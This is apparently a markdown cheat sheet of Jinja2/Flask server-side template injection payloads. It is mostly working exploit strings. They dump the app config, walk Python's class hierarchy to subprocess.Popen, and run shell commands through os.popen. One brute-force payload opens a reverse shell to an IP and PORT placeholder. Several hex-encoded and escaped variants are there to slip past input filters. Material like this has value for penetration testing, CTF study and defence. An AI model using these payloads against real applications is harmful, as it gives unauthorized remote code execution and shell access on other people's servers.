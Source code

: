 # jinja2 flask template injection

## Info

* **Method Resolution Order (mro):** allows to go up the inherited objects chain
* **subclasses:** going down the inheritance chain

## Jinja2 template formts:

* `` `{% ... %}` ``
* `` `{% ... %}` ``

## RCE Methods

### subprocess.pOpen method

```bash
# print all config vars
{{config}}
{{self.__dict__}}
{{config.items()}}

# find the mro object[X] to list all subclasses
{{ ''.__class__.__mro__ }}
{{ ''.__class__.__mro__[X].__subclasses__() }} => list of all subclasses

# find subprocess.pOpen class
{{ ''.__class__.__mro__[X].__subclasses__()[XXX] }} => <class 'subprocess.pOpen'>

# RCE
{{ ''.__class__.__mro__[X].__subclasses__()[XXX]('id', shell=True, stdout=-1).communicate() }}
```

### More styles

```bash
{{ request.application.__globals__.__builtins__.__import__('os').popen('id').read() }}

{{ request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('id')['read']() }}

{{ "foo".__class__.__base__.__subclasses__()[182].__init__.__globals__['sys'].modules['os'].popen("ls").read()}}
```

### brute-RCE (without guessing mro class)

```bash
{% for x in ().class.base.subclasses() %}{% if "warning" in x.name %}{{x()._module.builtins['import']('os').popen("python3 -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("IP",PORT)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call(["/bin/bash", "-i"]);'").read().zfill(417)}}{%endif%}{% endfor %}
```

### Bypass restrictions (1)

* [https://hackmd.io/@Chivato/HyWsJ31dI](https://hackmd.io/@Chivato/HyWsJ31dI)

```bash
{% for x in ().__class__.__base__.__subclasses__() %}
    {% if "warning" in x.__name__ %}
        {{x()._module.__builtins__['__import__']('os').popen("ls").read()}}
    {%endif%}
{%endfor%}

# is converted (via hex encoding)

{% for a in []["5F5F636C6173735F5F"["\x64\x65\x63\x6F\x64\x65"]("\x68\x65\x78")]["5F5F626173655F5F"["\x64\x65\x63\x6F\x64\x65"]("\x68\x65\x78")]["5F5F737562636C61737365735F5F"["\x64\x65\x63\x6F\x64\x65"]("\x68\x65\x78")]() %}
    {% if "7761726E696E67"["\x64\x65\x63\x6F\x64\x65"]("\x68\x65\x78") in a["5F5F6E616D655F5F"["\x64\x65\x63\x6F\x64\x65"]("\x68\x65\x78")] %}
        {{a()["5F6D6F64756C65"["\x64\x65\x63\x6F\x64\x65"]("\x68\x65\x78")]["5F5F6275696C74696E735F5F"["\x64\x65\x63\x6F\x64\x65"]("\x68\x65\x78")]["5F5F696D706F72745F5F"["\x64\x65\x63\x6F\x64\x65"]("\x68\x65\x78")]("6F73"["\x64\x65\x63\x6F\x64\x65"]("\x68\x65\x78"))["706F70656E"["\x64\x65\x63\x6F\x64\x65"]("\x68\x65\x78")]("6563686F2024666C6167"["\x64\x65\x63\x6F\x64\x65"]("\x68\x65\x78"))["72656164"["\x64\x65\x63\x6F\x64\x65"]("\x68\x65\x78")]()}}
    {%endif%}
{%endfor%}
```

### Bypassing restrictions (2)

```bash
{{request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('id')['read']() }}
# modifying {{ }} to a different method using {% %}
# modifying ' to "
# modifying _ to \x5f

{% request['application']['\x5f\x5fglobals\x5f\x5f']['\x5f\x5fbuiltins\x5f\x5f']['\x5f\x5fimport\x5f\x5f']('os')['popen']('id')['read']() %}

# using operator:with
# {% with %} ... {% endwith %} 

{% with kashz=request["application"]["\x5f\x5fglobals\x5f\x5f"]["\x5f\x5fbuiltins\x5f\x5f"]["\x5f\x5fimport\x5f\x5f"]("os")["popen"]("id")["read"]()  %} kashz {% endwith %}

# can try using bas64 payload
```

### References

* [https://pequalsnp-team.github.io/cheatsheet/flask-jinja2-ssti](https://pequalsnp-team.github.io/cheatsheet/flask-jinja2-ssti)
* [https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee](https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee)
* [https://chowdera.com/2020/12/20201221231521371q.html](https://chowdera.com/2020/12/20201221231521371q.html)
* [https://secure-cookie.io/attacks/ssti/](https://secure-cookie.io/attacks/ssti/)

